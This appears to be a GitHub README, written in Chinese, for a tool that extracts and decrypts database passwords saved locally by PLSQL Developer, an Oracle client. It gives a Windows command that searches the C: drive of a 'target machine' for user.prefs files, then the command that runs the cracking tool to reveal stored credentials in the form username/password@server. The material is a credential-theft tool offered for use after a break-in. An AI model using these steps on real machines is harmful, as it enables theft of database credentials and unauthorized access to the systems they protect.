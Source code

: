 # PLSQL_Crack_Pass
### Oralce 数据库连接工具 PLSQL Developer 保存在本地的密码抓取

根据目标机器上 `.Net` 版本使用对应的版本工具，Win2008推荐 `Net3.0` ，Win2012推荐 `Net4.0`

1、获取 user.prefs 文件所在的位置

`for /r c: %a in (*user.prefs) do @echo %a`

![images](https://github.com/TryA9ain/PLSQL_Crack_Pass/blob/master/1.png)

2、使用工具破解保存在本地的密码

`PLSQLCrackPass.exe -p user.prefs_Path`

`解密后结果为：<username>/<password>@<server>`

![images](https://github.com/TryA9ain/PLSQL_Crack_Pass/blob/master/2.png)
